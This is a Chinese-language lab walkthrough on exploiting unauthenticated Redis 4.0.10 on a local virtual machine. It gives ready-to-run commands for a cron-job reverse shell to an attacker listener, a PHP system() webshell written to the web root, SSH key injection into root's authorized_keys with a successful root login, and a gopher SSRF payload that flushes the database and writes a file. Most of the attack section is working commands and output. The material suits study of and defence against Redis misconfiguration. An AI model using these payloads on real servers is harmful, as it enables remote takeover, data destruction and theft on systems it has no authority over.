

# Redis 未授权访问

## 原理

Redis默认情况下默认会绑定`0.0.0.0:6379` ，如果不做任何防护，就会将该地址暴露到公网，如果没设置密码（一般为空）的情况下，就会导致未授权漏洞

危害：

- 攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行`flushall`来清空所有数据
- 攻击者可通过`EVAL`执行lua代码，或通过数据备份功能往磁盘写入后门程序
- 最严重的情况，如果Redis以root身份与运行，黑客可以给root账户写入SSH公钥文件直接通过SSH登录受害服务器

## 安装实验环境

```bash
wget https://download.redis.io/releases/redis-4.0.10.tar.gz
tar -zxvfredis-4.0.10.tar.gz
cd redis-4.0.10/src//然后进入redis的src目录下
make && make install
```

修改`redis.conf` 文件：

将`daemonize` （守护进程）改为`yes`

`protected-mode yes` 改为`no` （否则只能本地环回地址`127.0.0.1`访问）

`requirepass yourpassword`可以设置密码（这个实验就先不设置了）

启动服务

```bash
root@sunset-ubuntu:/usr/local/redis-4.0.10/src# redis-server ../redis.conf 
10484:C 10 Mar 22:12:17.804 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
10484:C 10 Mar 22:12:17.804 # Redis version=4.0.10, bits=64, commit=00000000, modified=0, pid=10484, just started
10484:C 10 Mar 22:12:17.804 # Configuration loaded
10484:M 10 Mar 22:12:17.806 * Increased maximum number of open files to 10032 (it was originally set to 1024).
                _._                                                  
           _.-``__ ''-._                                             
      _.-``    `.  `_.  ''-._           Redis 4.0.10 (00000000/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._                                   
 (    '      ,       .-`  | `,    )     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 10484
  `-._    `-._  `-./  _.-'    _.-'                                   
 |`-._`-._    `-.__.-'    _.-'_.-'|                                  
 |    `-._`-._        _.-'_.-'    |           http://redis.io        
  `-._    `-._`-.__.-'_.-'    _.-'                                   
 |`-._`-._    `-.__.-'    _.-'_.-'|                                  
 |    `-._`-._        _.-'_.-'    |                                  
  `-._    `-._`-.__.-'_.-'    _.-'                                   
      `-._    `-.__.-'    _.-'                                       
          `-._        _.-'                                           
              `-.__.-'                                               

10484:M 10 Mar 22:12:17.808 # Server initialized
10484:M 10 Mar 22:12:17.808 # WARNING overcommit_memory is set to 0! Background save may fail under low memory condition. To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf and then reboot or run the command 'sysctl vm.overcommit_memory=1' for this to take effect.
10484:M 10 Mar 22:12:17.808 # WARNING you have Transparent Huge Pages (THP) support enabled in your kernel. This will create latency and memory usage issues with Redis. To fix this issue run the command 'echo never > /sys/kernel/mm/transparent_hugepage/enabled' as root, and add it to your /etc/rc.local in order to retain the setting after a reboot. Redis must be restarted after THP is disabled.
10484:M 10 Mar 22:12:17.808 * DB loaded from disk: 0.000 seconds
10484:M 10 Mar 22:12:17.808 * Ready to accept connections
```

## 漏洞复现

首先扫描靶机

```bash
⚡ root@kali  ~/Desktop/test/test  nmap -sT -min-rate 10000 -p-  192.168.111.170
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 10:23 EDT
Nmap scan report for 192.168.111.170
Host is up (0.024s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
MAC Address: 00:0C:29:56:14:22 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds
```

存在Redis端口，那么就要尝试是否存在未授权漏洞

### 创建定时任务反弹 shell

`kali`开启监听

```bash
 ⚡ root@kali  ~/Desktop/test/test  nc -lvnp 1234                                
listening on [any] 1234 ...
```

`kali`连接`Redis`服务器

```bash
⚡ root@kali  ~/Desktop/test/test  redis-cli -h 192.168.111.170
192.168.111.170:6379> 
```

设置定时任务

```bash
redis-cli -h 192.168.111.170

set xxx "\n\n* * * * * bash -i>& /dev/tcp/192.168.111.162/1234 0>&1\n\n"
config set dir /var/spool/cron/crontabs
config set dbfilename root
save
```

等待反弹即可，注意：创建定时任务的方法只能在`Centos`使用，因为Redis创建文件是644权限，但是在Ubuntu中需要`600`权限定时任务才可以执行；并且通过Redis写文件会有乱码，Ubuntu上执行会报错，并且Ubuntu中的定时文件路径在`/var/spool/cron/crontas` ；Centos 反之。

### 通过 Redis 写入 Webshell

在Redis存在未授权访问，并且开启了服务器，可以尝试默认路径获得通过其它方法获得路径，具有读写权限，即可写入`Webshell`

```bash
config set dir /var/www/html/
config set dbfilename shell.php
set xxx "\n\n<?php system($_POST[x]);phpinfo(); ?>\n\n"
save
```

通过Webshell执行命令



查看上传到靶机的`shell.php`


### 利用 Redis 写入 SSH 公钥

`kali`生成公钥，会保存在`.ssh`文件夹

```bash
 ⚡ root@kali  ~/Desktop/test/metasploit2  ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase for "/root/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:gON7qSX2B86uMbstpsLhZgtUT8A+JmxX3nuf3SYcg8g root@kali
The key's randomart image is:
+---[RSA 3072]----+
|  ..             |
|   ..o           |
|. ..=.o          |
| +.*oo o         |
|..+ o.  S . .    |
|..   ..o E . o   |
|+ . *o+.. . + +  |
|o= .o@o .  o + o |
|oooo==+.      o  |
+----[SHA256]-----+
```

导出公钥并添加`\n`防止乱码

```bash
⚡ root@kali  ~/Desktop/test/test  (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
⚡ root@kali  ~/Desktop/test/test  cat key.txt           

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxXpjYGlyNDtcmbZOsYeg0b7nB7P0ltBXDjYhUBeqUxtWj7g8c3z2us9m1DZupz2u2pW4TfEFLRUC0L0+itO0eZ5stffv4DZSTElKUFToFDpFcOmvNeLhS7l2L7MM9Vzj0W57+aXumMfeNlTVqM39+yc0tbSBUUA3Kx4hdsHTdjsktWPBdUfLQyGoYGLEB3Lg3jy8WJceLuTP0Ri3Bm/Osr1o28Gd9YRF2unzV6pW8kbOpKz2BcsiknYeGvfkh+PrxmZIr8j6o4TggaVfDYX7mXA+ClA2SgtDgcLs3pwSPeZulEF2JasqkPLJ8blKQMDzwHT2ijg11XXOarTl+B/T7AjmH12kD918jZ61n1ytYvfxBwrYLTFbS9YYKwPk/sCQBEgXqkhZUrTieq0byadADS1c3WnJc20J5UbsUv+au8jnt+WW0myh63R3JH7+kUUrI6Vqlpqqd4kb/IJaroPHjh7Ihck5l7M3+Wtqwh+/2Luo63t0wQZbZH79v9uCifEU= root@kali

```

读取`key.txt`的内容并将其标准输出到`Redis`键`putsshkey`

```bash
cat key.txt| redis-cli -h 192.168.111.170 -x set putsshkey
OK
```

设置目录和文件名并保存

```bash
192.168.111.170:6379> config set dir /root/.ssh
OK
192.168.111.170:6379> config set dbfilename authorized_keys
OK
192.168.111.170:6379> save
OK
```

直接登陆`SSH`无需输入密码，默认会去找`.ssh`目录下的私钥文件，使用私钥文件成功登录

```bash
⚡ root@kali  ~/Desktop/test/test  ssh root@192.168.111.170
The authenticity of host '192.168.111.170 (192.168.111.170)' can't be established.
ED25519 key fingerprint is SHA256:57ZX0kd9Nh1u9CgcVcoq0yqZXB/NZ1mnsFw0GhQvv54.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.111.170' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.11.0-19-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

219 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Last login: Tue Mar 11 09:26:21 2025 from 192.168.111.1
root@sunset-ubuntu:~# 
```

### 主从复制 RCE

https://blog.csdn.net/q20010619/article/details/121912003

### SSRF - gopher

> https://github.com/firebroo/sec_tools 工具链接，好文：https://www.cnblogs.com/sijidou/p/13681845.html
> 

修改 `redis.cmd` ，改为需要注入的命令（这里是使用gopher写入webshell）

```
⚡ root@kali  ~/Desktop/test/test/sec_tools/redis-over-gopher  cat redis.cmd
flushall
config set dir /tmp
config set dbfilename getshell.php
set 'webshell' '<?php phpinfo();?>'
save
```

编辑好运行`redis-over-gopher.py`  

```bash
 ⚡ root@kali  ~/Desktop/test/test/sec_tools/redis-over-gopher  python2 redis-over-gopher.py
gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%38%0d%0a%66%6c%75%73%68%61%6c%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%34%0d%0a%2f%74%6d%70%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%32%0d%0a%67%65%74%73%68%65%6c%6c%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%38%0d%0a%77%65%62%73%68%65%6c%6c%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a
```


到Redis服务器中查看

```bash
root@sunset-ubuntu:/tmp# ls -al | grep getshell.php
-rw-r--r--  1 root root  127 Mar 11 10:20 getshell.php
```

成功写入，正常要写到`web`服务器路径上

### SSTF - dict

> https://www.cnblogs.com/CoLo/p/14214208.html#dict%E6%89%93redis%E4%B9%8B%E5%86%99webshell
>